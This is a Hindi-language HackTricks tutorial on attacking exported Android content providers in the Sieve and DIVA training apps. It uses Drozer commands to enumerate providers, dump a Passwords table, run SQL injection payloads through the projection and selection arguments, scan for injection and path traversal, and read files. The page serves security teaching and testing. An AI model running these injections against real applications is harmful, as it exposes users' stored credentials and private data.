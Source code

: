 # विषय क्षेत्र प्रदाताओं का शोषण

## विषय क्षेत्र प्रदाताओं का शोषण

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live) पर **फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## परिचय

डेटा **एक एप्लिकेशन से अन्य एप्लिकेशनों को** एक सामग्री प्रदाता द्वारा अनुरोध पर प्रदान किया जाता है। ये अनुरोध **ContentResolver class** के विधियों के माध्यम से प्रबंधित किए जाते हैं। विषय क्षेत्र प्रदाताएं अपने डेटा को विभिन्न स्थानों में संग्रहीत कर सकती हैं, जैसे कि **डेटाबेस**, **फ़ाइलें**, या **नेटवर्क** पर।

मानचित्रा.xml फ़ाइल में, विषय क्षेत्र प्रदाता की घोषणा आवश्यक है। उदाहरण के लिए:
```xml
<provider android:name=".DBContentProvider" android:exported="true" android:multiprocess="true" android:authorities="com.mwr.example.sieve.DBContentProvider">
<path-permission android:readPermission="com.mwr.example.sieve.READ_KEYS" android:writePermission="com.mwr.example.sieve.WRITE_KEYS" android:path="/Keys"/>
</provider>
```
एक्सेस करने के लिए `content://com.mwr.example.sieve.DBContentProvider/Keys`, `READ_KEYS` अनुमति आवश्यक है। यह दिलचस्प है कि नोट करें कि पथ `/Keys/` उस खंड में एक्सेस किया जा सकता है, जिसे डेवलपर द्वारा गलती से सुरक्षित किया गया है, जिसने `/Keys` को सुरक्षित किया था लेकिन `/Keys/` को घोषित किया।

**शायद आप निजी डेटा तक पहुंच सकते हैं या किसी भी कमजोरी (SQL Injection या पथ ट्रावर्सल) का शोध कर सकते हैं।**

## **एक्सपोज़ कंटेंट प्रोवाइडर्स** से जानकारी प्राप्त करें
```
dz> run app.provider.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
Authority: com.mwr.example.sieve.DBContentProvider
Read Permission: null
Write Permission: null
Content Provider: com.mwr.example.sieve.DBContentProvider
Multiprocess Allowed: True
Grant Uri Permissions: False
Path Permissions:
Path: /Keys
Type: PATTERN_LITERAL
Read Permission: com.mwr.example.sieve.READ_KEYS
Write Permission: com.mwr.example.sieve.WRITE_KEYS
Authority: com.mwr.example.sieve.FileBackupProvider
Read Permission: null
Write Permission: null
Content Provider: com.mwr.example.sieve.FileBackupProvider
Multiprocess Allowed: True
Grant Uri Permissions: False
```
यह संभव है कि **DBContentProvider** तक पहुंचने के लिए "content://" के साथ URIs शुरू करके कैसे जुटाया जा सकता है। यह दृश्यों से प्राप्त जानकारी पर आधारित है जो Drozer का उपयोग करके प्राप्त की गई, जहां मुख्य जानकारी _/Keys_ निर्देशिका में स्थित थी।

Drozer **कई URIs को अनुमान और प्रयास कर सकता है**:
```
dz> run scanner.provider.finduris -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/
...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
```
आपको **ContentProvider कोड** भी जांचना चाहिए ताकि क्वेरीज़ को खोज सकें:

![](<../../../.gitbook/assets/image (121) (1) (1) (1).png>)

इसके अलावा, अगर आप पूरी क्वेरीज़ नहीं मिलती है तो आपको **देखना चाहिए कि ContentProvider द्वारा घोषित नाम कौन-कौन से हैं** `onCreate` मेथड पर:

![](<../../../.gitbook/assets/image (186).png>)

क्वेरी इस प्रकार होगी: `content://name.of.package.class/declared_name`

## **डेटाबेस-समर्थित Content Providers**

संभावित रूप से अधिकांश Content Providers **डेटाबेस** के लिए **इंटरफेस** के रूप में उपयोग किए जाते हैं। इसलिए, यदि आप इसे एक्सेस कर सकते हैं तो आप **जानकारी को निकाल सकते हैं, अपडेट, इन्सर्ट और डिलीट** कर सकते हैं।\
जांचें कि क्या आप **संवेदनशील जानकारी तक पहुंच सकते हैं** या फिर इसे **अधिकृति** के बाइपास करने की कोशिश करें।

Content Provider के कोड की जांच करते समय **फ़ंक्शन्स** के लिए भी देखें जिनका नाम है: _query, insert, update और delete_:

![](<../../../.gitbook/assets/image (187).png>)

![](<../../../.gitbook/assets/image (254) (1) (1) (1) (1) (1) (1) (1).png>)

क्योंकि आप उन्हें कॉल कर सकेंगे

### क्वेरी सामग्री
```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w==
-
email: incognitoguy50@gmail.com
```
### विषय डालें

डेटाबेस क्वेरी करके आप **कॉलम का नाम** सीखेंगे, फिर, आप डेटाबेस में डेटा डाल सकते हैं:

![](<../../../.gitbook/assets/image (188) (1).png>)

![](<../../../.gitbook/assets/image (189) (1).png>)

_ध्यान दें कि इंसर्ट और अपड
```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
```
**Drozer द्वारा स्वचालित SQLInjection खोज**
```
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/

dz> run scanner.provider.sqltables -a jakhar.aseem.diva
Scanning jakhar.aseem.diva...
Accessible tables for uri content://jakhar.aseem.diva.provider.notesprovider/notes/:
android_metadata
notes
sqlite_sequence
```
## **फ़ाइल सिस्टम समर्थित सामग्री प्रदाता**

सामग्री प्रदाताओं का उपयोग फ़ाइलों तक पहुँचने के लिए भी किया जा सकता है:

![](<../../../.gitbook/assets/image (193).png>)

### **फ़ाइल पढ़ें**

आप सामग्री प्रदाता से फ़ाइलें पढ़ सकते हैं
```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
127.0.0.1            localhost
```
### **पथ ट्रावर्सल**

यदि आप फ़ाइलों तक पहुँच सकते हैं, तो आप पथ ट्रावर्सल का दुरुपयोग करने की कोशिश कर सकते हैं (इस मामले में यह आवश्यक नहीं है लेकिन आप "_../_" और समान तरीके का प्रयोग करने की कोशिश कर सकते हैं)।
```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
127.0.0.1            localhost
```
**Drozer द्वारा स्वचालित पथ भ्रमण खोज**
```
dz> run scanner.provider.traversal -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Vulnerable Providers:
content://com.mwr.example.sieve.FileBackupProvider/
content://com.mwr.example.sieve.FileBackupProvider
```
## संदर्भ

* [https://www.tutorialspoint.com/android/android\_content\_providers.htm](https://www.tutorialspoint.com/android/android\_content\_providers.htm)
* [https://manifestsecurity.com/android-application-security-part-15/](https://manifestsecurity.com/android-application-security-part-15/)
* [https://labs.withsecure.com/content/dam/labs/docs/mwri-drozer-user-guide-2015-03-23.pdf](https://labs.withsecure.com/content/dam/labs/docs/mwri-drozer-user-guide-2015-03-23.pdf)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PR जमा करके।

</details>
